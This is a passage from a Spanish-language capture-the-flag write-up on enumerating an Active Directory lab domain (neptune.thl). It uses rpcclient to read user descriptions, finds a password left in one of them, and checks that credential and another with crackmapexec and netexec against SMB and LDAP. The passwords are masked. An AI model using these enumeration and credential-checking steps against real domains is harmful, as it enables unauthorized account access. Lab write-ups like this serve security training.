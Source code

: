 ```batch
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44f]
group:[IT] rid:[0x455]
```
Ese **grupo TI** parece que fue creado por un usuario.

Veamos la descripción de los usuarios porque puede haber alguna pista ahí:
```batch
rpcclient $> querydispinfo
index: 0xeda RID: 0x1f4 acb: 0x00000210 Account: Administrator	Name: (null)	Desc: Built-in account for administering the computer/domain
index: 0xfb5 RID: 0x453 acb: 0x00000210 Account: emma.johnson	Name: Emma Johnson	Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0xf11 RID: 0x1f6 acb: 0x00020011 Account: krbtgt	Name: (null)	Desc: Key Distribution Center Service Account
index: 0xfb3 RID: 0x451 acb: 0x00000210 Account: lucas.miller	Name: Lucas Miller	Desc: (null)
index: 0xfb6 RID: 0x454 acb: 0x00000210 Account: thomas.brown	Name: Thomas Brown	Desc: (null)
index: 0xfb4 RID: 0x452 acb: 0x00000210 Account: victor.rodriguez	Name: Victor Rodriguez	Desc: My Password is *******
```
Genial, parece que el **usuario victor.rodriguez** dejó su contraseña en la descripción de su usuario.

Comprobemos que funciona con **crackmapexec**:
```bash
crackmapexec smb 192.168.56.10 -u 'victor.rodriguez' -p '********'
SMB         192.168.56.10   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:neptune.thl) (signing:True) (SMBv1:False)
SMB         192.168.56.10   445    DC01             [+] neptune.thl\victor.rodriguez:*********
```
Sí funciona esta contraseña.

Antes de ir al **SMB**, apliquemos enumeración al **servicio LDAP**.

<br>

<h2 id="LDAP">Enumeración de Servicio LDAP</h2>

Al aplicar esta enumeración, podemos ver, de manera más gráfica, la información del dominio, como los grupos y usuarios existentes.

Podemos probar la contraseña de cualquier usuario que tenemos, para ver si funcionan contra el **servicio LDAP** con la herramienta **netexec**:
```bash
netexec ldap 192.168.56.10 -u 'lucas.miller' -p '************'
SMB         192.168.56.10   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:neptune.thl) (signing:True) (SMBv1:False)
LDAP        192.168.56.10   389    DC01             [+] neptune.thl\lucas.miller:**********
.
netexec ldap 192.168.56.10 -u 'victor.rodriguez' -p '************'
SMB         192.168.56.10   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:neptune.thl) (signing:True) (SMBv1:False)
LDAP        192.168.56.10   389    DC01             [+] neptune.thl\victor.rodriguez:************
```
Ambos funcionan.
